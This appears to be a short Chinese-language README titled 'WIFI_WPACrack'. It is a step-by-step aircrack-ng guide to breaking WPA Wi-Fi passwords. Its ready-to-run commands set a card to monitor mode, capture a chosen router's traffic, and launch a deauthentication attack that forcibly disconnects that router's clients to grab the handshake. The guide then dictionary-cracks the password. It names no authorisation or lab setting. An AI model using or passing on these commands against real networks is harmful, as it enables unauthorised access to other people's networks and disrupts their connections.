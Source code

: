# WIFI_WPACrack

强烈建议安装aircrack-ng 1.2版本的,1.1版本的可以有一些操作差异.

1. 首先,将无线网卡设为监听: 通过ifconfig可以查看到你的无线网卡是不是wlan0.
    sudo airmon-ng start wlan0
  如果提示有错误,一般是需要你执行kill把其它占用wifi网卡的进程Kill掉,按照提示kill就行.
  可执行 airmon-ng check kill 进行快速kill,然后再执行一次上面那个命令.

2. 实时刷新所有加密方式为WPA的所有网络
    sudo airodump-ng -a --encrypt WPA wlan0mon
   其中,bssid为路由器的mac地址,CH为通道,后面需要用到.等到看到有需要的信息后,可以按CTRL+C结束掉.

3. 新窗口,从2中,找到自己需要抓包的路由器的bssid和ch.
    假设bssid为 28:2C:B2:E4:F5:5A,通道为13,则单独显示此路由器的连接信息,如下:
    sudo airodump-ng --bssid 28:2C:B2:E4:F5:5A -c 13 -w hand --ignore-negative-one wlan0mon
    其中的-w为抓到握手包后的保存文件名.

    保持3的窗口不要动.

4. 新窗口,输入下面的命令,作用是让目标路由器和它的连接设备掉线,然后再重连,产生握手动作.
    sudo aireplay-ng -0 10 -a 28:2C:B2:E4:F5:5A -c 90:C1:15:BA:82:FD --ignore-negative-one wlan0mon
    其中-0 10是攻击10次, -a 为目标路由器mac, -c的此时正在连接中的未知设备.

    执行完这个后,请观察3窗口的右上角,是否会提示handshake的字样,如果有,则说明成功抓包.可到当前目录下看看,是否有hand_xx.cap的文件,这个就是抓包文件.

5. 当4后,可关闭之前的窗口了,现在抓到了包,可以慢慢的破解了.
    输入
    sudo aircrack-ng hand_xx.cap -w /home/1.txt
    其中1.txt为密码字典文件,可到网上搜WPA字典下载,很多.
    然后就是漫长的等待,运气好几秒中,运气不好永远都撞不对.................

